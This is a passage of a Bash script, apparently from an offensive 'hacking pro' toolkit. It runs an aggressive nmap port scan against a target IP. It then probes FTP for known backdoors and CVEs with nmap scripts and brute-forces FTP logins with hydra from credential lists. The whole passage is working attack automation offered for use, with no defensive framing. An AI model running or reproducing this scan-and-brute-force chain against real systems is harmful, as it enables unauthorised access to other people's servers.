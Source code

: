   Port_Scan() {
    echo " "
  	echo "       ${BBlue}┌──[ 🎯 ]──[${BRed} Target ${BBlue}]──╼ ${BGreen} ${targetIP} ${BBlue}|  Number of threads: ${BGreen} ${thread}."
  	echo "       ${BBlue}└──[ 🎯 ]──[${BRed} Agressive ${BBlue}]──╼ ${DGrey} Starting agressive scan of supported ports against: ${BGreen} ${targetIP}...\n"
  	sleep 1
  	sudo nmap -T4 -Pn -v --open ${targetIP} -p 21,22,23,25,53,80,110,139,162,389,443,445,512,513,514,993,1433,1521,3306,3389,5432,5900,5901,6667,8000,8080 >> "nmap.log"
  	echo "[${yellow}*${default}] Scan finished."
  	read -p "$Press_ENTER"
  	pwd
  	ls
    read -p "$Press_ENTER"
  	sleep 1
  }
  Port_Scan

  echo " "

  # Port 21 - (FTP)
  BruteFTP(){
    # - Name:
    # - Version:
    # - Anonymous login:
    if grep -q 21/tcp $XHacKingProCaseTargetNameAttacKing/nmap.log; then
      echo "        ${BBlue}┌──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 21(FTP) is open. Starting bruteforce...\n"
      BruteFTP_Open="$(echo " ${BBlue}[${BGreen} Open ${BBlue}] ")"
      AfterBruteFTP="${BruteFTP_Open}"
      # echo "${AfterBruteFTP}"
      sleep 1
      nmap --script=ftp-anon,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 ${targetIP}
      hydra -C $ftp_up ${targetIP} ftp -e ns -o Output/${targetIP}/ftp_${targetIP}.txt -I -V -t $thread
      hydra -L $ftp_u -P $ftp_p ${targetIP} ftp -e ns -o Output/${targetIP}/ftp1_${targetIP}.txt -I -V -t $thread
      Finished_Brute "${targetIP}"
    else
      echo "        ${BBlue}┌──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 21(FTP) is not open. Skipping to next port..."
      BruteFTP_Close="$(echo " ${BBlue}[${BRed} Closed ${BBlue}] ")"
      AfterBruteFTP="${BruteFTP_Close}"
      # echo "${AfterBruteFTP}"
    fi
  }
  BruteFTP
